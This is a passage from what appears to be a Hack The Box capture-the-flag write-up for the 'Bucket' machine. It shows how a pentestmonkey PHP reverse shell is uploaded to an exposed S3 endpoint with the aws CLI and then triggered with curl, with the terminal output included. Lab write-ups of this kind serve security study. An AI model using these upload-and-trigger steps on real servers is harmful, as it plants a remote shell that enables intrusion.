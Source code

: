 Using the pentestmonkey, php-reverse-shell, and prepared the return netcat port. Uploading PHP reverse shell to the server using the command **"aws --endpoint http://s3.bucket.htb/ s3 cp php-reverse-shell.php s3://adserver"**

![img](./img/12.png)

```
root@kclai:~/Documents/ctf/htb/linux/18-HTB-Bucket/exploit# aws --endpoint-url http://s3.bucket.htb/ s3 cp php-reverse-shell.php s3://adserver/
upload: ./php-reverse-shell.php to s3://adserver/php-reverse-shell.php
root@kclai:~/Documents/ctf/htb/linux/18-HTB-Bucket/exploit# aws --endpoint-url http://s3.bucket.htb/ s3 ls s3://adserver/
                           PRE images/
2020-12-27 01:03:03       5344 index.html
2020-12-27 01:03:52       1069 php-reverse-shell.php

root@kclai:~/Documents/ctf/htb/linux/18-HTB-Bucket/exploit# curl http://bucket.htb/php-reverse-shell.php

```
